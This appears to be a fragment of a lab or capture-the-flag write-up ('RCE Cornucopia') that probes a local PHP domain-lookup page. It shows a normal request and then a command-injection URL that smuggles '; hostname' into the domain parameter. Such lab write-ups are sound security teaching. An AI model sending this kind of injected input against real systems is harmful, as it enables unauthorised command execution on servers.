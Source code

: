 Testing for normal functionality...

```
http://127.0.0.1:8082/index.php?domain=google.com&submit=Lookup
```

![RCE Cornucopia](/img/rce-cornucopia/rce2-001.png)

Trying the same trick as Challenge 1...

```
http://127.0.0.1:8082/index.php?domain=google.com;%20hostname&submit=Lookup
```

![RCE Cornucopia](/img/rce-cornucopia/rce2-002.png)
